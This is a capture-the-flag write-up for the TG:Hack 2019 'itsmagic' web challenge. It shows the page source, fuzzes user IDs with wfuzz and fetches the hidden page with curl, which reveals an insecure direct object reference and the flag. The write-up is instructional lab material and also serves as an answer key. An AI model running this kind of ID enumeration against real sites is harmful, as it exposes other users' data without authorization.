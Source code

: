 ```yaml
---
layout: default
---
```


![itsmagic (100 pts)](./screenshots/itsmagic.png)
---
## CHALLENGE INFO
- __CHALLENGE LINK__: https://wandshop.tghack.no/
- __LANDING PAGE__:

  ![homepage](./screenshots/itsmagic_home.png)

  - __Page Source__:
    ```html
    <html>

    <head>
      <title>itsmagic</title>
      <script type="text/javascript" src="script.js"></script>
      <link rel="stylesheet" href="style.css">
    </head>

    <body onload="init()" class="orangebackground">
      <header>
        <img class="logo" src="/pictures/itsmagic_2.png" alt="itsmagic logo">
      </header>
      <div class="login-page">
        <div class="form">
          <form class="login-form">
            <input type="text" id="username" placeholder="username" />
            <input type="password" id="password" placeholder="password" />
            <input type="button" id="myBtn" value="Login" onclick="login()" />
          </form>
        </div>
      </div>
      <div class="homecontainer">
        <img src="/pictures/orange_itsmagic.jpg">
      </div>
    </body>

    </html>
    ```
  - __*/script.js*__
    ```js
    const rooturl = window.location.protocol+"//"+window.location.host+"/";

    function init() {
        ...
    }

    function login() {
        // Nothing interesting here, just trying to make task seem like 
        // it has a real login page in a hacky way
        var username = document.getElementById('username').value;

        var request = new XMLHttpRequest();
        request.open('GET', rooturl + 'login/' + username);

        request.onload = function () {
            var data = JSON.parse(this.response);
            const userid = data.userid;

            if (request.status == 200 && userid != null)
                window.location.href = rooturl + "home/" + userid;
        }

        request.send();
    }

    function home() {
        // Just selecting grades randomly to illustrate that each user 
        // has their own grades (giving the feel of a real website)

        ...

        request.send();
    }

    ```
    __Notes__:
    - The __login form__ is bogus
    - The grades generated after "logging in" is randomly generated
    - The default __userid__ after "logging in" is 1338

- __ASSUMED OBJECTIVE__: Find the __userid__ where the flag is hidden

---

## Step 1 : Find the __userid__ with the flag

1. Run __*wfuzz*__:
   ```console
   wfuzz -z range,0-9999 https://itsmagic.tghack.no/home/FUZZ

   # ==================================================================
   # ID   Response   Lines      Word         Chars          Payload
   # ==================================================================
   # ...
   # 001330:  C=200     43 L       74 W          936 Ch    "1329"
   # 001332:  C=200     43 L       74 W          936 Ch    "1331"
   # 001334:  C=200     43 L       74 W          936 Ch    "1333"
   # 001333:  C=200     43 L       74 W          936 Ch    "1332"
   # 001335:  C=200     43 L       74 W          936 Ch    "1334"
   # 001337:  C=200     43 L       74 W          936 Ch    "1336"
   # 001336:  C=200     43 L       74 W          936 Ch    "1335"
   # 001338:  C=200      0 L       10 W           76 Ch    "1337"
   # 001339:  C=200     43 L       74 W          936 Ch    "1338"
   # 001340:  C=200     43 L       74 W          936 Ch    "1339"
   # ...
   ```
   __Note__:
   - __userid 1337__ has a different content length than the rest.

2. Check __userid 1337__:
   ```console
   curl https://itsmagic.tghack.no/home/1337
   ```
   ```html
   Congrats, y0ur s0 1337! </br>TG19{Direct object reference might B insecure!}
   ```

---

## FLAG : __TG19{Direct object reference might B insecure!}__
